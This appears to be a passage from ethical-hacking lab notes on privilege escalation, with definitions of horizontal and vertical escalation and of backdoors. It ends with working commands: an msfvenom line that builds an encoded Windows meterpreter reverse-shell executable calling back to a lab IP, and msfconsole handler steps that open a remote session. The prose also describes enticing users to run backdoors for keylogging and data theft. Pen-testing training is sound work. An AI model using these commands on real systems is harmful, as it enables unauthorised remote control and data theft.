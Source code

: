 Note: Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444., -f: filetype, -a: architecture, -b: bad character.



## Perform Privilege Escalation to Gain Higher Privileges


As a professional ethical hacker or pen tester, the second step in system hacking is to escalate privileges by using user account passwords obtained in the first step of system hacking. In privileges escalation, you will attempt to gain system access to the target system, and then try to attain higher-level privileges within that system. In this step, you will use various privilege escalation techniques such as named pipe impersonation, misconfigured service exploitation, pivoting, and relaying to gain higher privileges to the target system.

Privilege escalation is the process of gaining more privileges than were initially acquired. Here, you can take advantage of design flaws, programming errors, bugs, and configuration oversights in the OS and software application to gain administrative access to the network and its associated applications.

Backdoors are malicious files that contain trojan or other infectious applications that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them. Once a user executes such an application, you can gain access to their affected machine and perform activities such as keylogging and sensitive data extraction.


Privileges are a security role assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.

Horizontal Privilege Escalation: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions

Vertical Privilege Escalation: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator


### Escalate Privileges using Privilege Escalation Tools and Exploit Client-Side Vulnerabilities


Create the reverse shell exploit:

	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe


Use the Exploit to create a meterpreter remote session.

	msfconsole
	> use exploit/multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set LHOST 10.10.1.13
	> exploit -j -z
	> sessions -i 1 
	meterpreter > getuid

